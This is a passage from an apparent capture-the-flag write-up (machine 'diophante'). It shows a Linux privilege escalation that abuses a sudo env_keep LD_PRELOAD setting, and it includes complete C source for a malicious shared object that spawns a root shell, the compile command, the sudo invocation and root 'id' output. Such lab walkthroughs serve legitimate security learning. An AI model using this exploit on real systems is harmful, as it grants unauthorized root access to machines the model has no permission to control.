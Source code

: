 Google is my friend
I searched `env_keep+=LD_PRELOAD priv esc` and gave me this nice article :
[Linux Privilege Escalation using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

#### In Action

`cd /tmp`

`nano shell.c`

- Paste this

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`


`sudo LD_PRELOAD=/tmp/shell.so ping`

`whoami`

```sh
leonard@diophante:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping
# id
uid=0(root) gid=0(root) groupes=0(root)
#
```


![image]( /assets/img/diophante/12.PNG)
